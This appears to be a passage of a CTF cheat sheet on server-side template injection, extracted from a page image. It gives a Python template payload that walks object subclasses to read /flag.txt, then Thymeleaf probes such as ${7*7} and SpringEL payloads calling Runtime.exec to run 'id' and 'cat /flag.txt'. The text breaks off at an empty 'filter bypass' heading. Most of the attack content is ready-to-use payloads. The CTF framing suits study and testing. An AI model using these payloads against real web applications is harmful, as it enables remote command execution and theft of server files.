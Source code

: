 ### Context escaping:

```
{% for x in [].__class__.__base__.__subclasses__() %}
    {% if 'warning' in x.__name__ %}
        {{ x.__init__.__globals__['__builtins__'].open('/flag.txt').read() }}
    {% end %}
{% end %}
```

# SSTI for Thymeleaf (Java) Templates

Thymeleaf is a modern server-side Java template engine for web applications. Here's how to perform Server-Side Template Injection (SSTI) on Thymeleaf in a CTF context:

## Basic Testing

Test for vulnerability with:

```
${7*7}
*{7*7}
```

If this returns `49`, you have confirmed the vulnerability.

## Expression Types in Thymeleaf

Thymeleaf has multiple expression syntaxes:

- `${...}` - Variable expressions (OGNL/SpringEL)
- `*{...}` - Selection expressions
- `@{...}` - Link expressions
- `#{}` - Message expressions
- `~{}` - Fragment expressions

## Exploitation Techniques

### Basic Expression Evaluation

```
${7*7}
${T(java.lang.System).getProperty('user.dir')}
```

### Class Loading and Reflection

```
${T(java.lang.Runtime).getRuntime().exec('id')}
${T(java.lang.Runtime).getRuntime().exec('cat /flag.txt')}
```

### Using String Concatenation (for filter bypass)
